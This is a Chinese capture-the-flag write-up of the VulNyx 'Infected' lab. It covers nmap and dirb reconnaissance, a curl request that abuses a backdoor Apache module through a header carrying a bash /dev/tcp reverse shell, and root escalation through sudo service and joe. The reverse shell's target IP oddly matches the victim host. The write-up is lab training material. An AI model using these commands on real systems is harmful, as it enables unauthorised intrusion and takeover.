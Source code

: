 # 环境

来自[vulnyx_Infected](https://vulnyx.com/#Infected)，利用phpinfo已存在加载后门模块，拿到shell

# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```

![image-20240723180651852](image/image-20240723180651852.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.35
```

![image-20240723180705563](image/image-20240723180705563.png)

## 目录扫描

```bash
dirb http://192.168.88.35
```

![image-20240723181202907](image/image-20240723181202907.png)

# web渗透

## 利用phpinfo()

访问http://192.168.88.35/info.php，查找字符串可以看到Loaded Modules加载了一个mod_backdoor模块

![image-20240723181630012](image/image-20240723181630012.png)

进行反弹shell

```bash
curl -H "Backdoor:bash -c 'bash -i >& /dev/tcp/192.168.88.35/4444 0>&1'" http://192.168.88.35
```

![image-20240723182156895](image/image-20240723182156895.png)

## 提权

可以看到laurent有service权限

![image-20240723182458194](image/image-20240723182458194.png)

进行[service](https://gtfobins.github.io/gtfobins/service/)提权

![image-20240723182645948](image/image-20240723182645948.png)

可也看到laurent用户有root权限执行[joe](https://gtfobins.github.io/gtfobins/joe/)

![image-20240723182711566](image/image-20240723182711566.png)

```bash
sudo joe
然后ctrl+k,输入!
有命令交互输入/bin/bash,成功拿shell
```

![image-20240723182929325](image/image-20240723182929325.png)
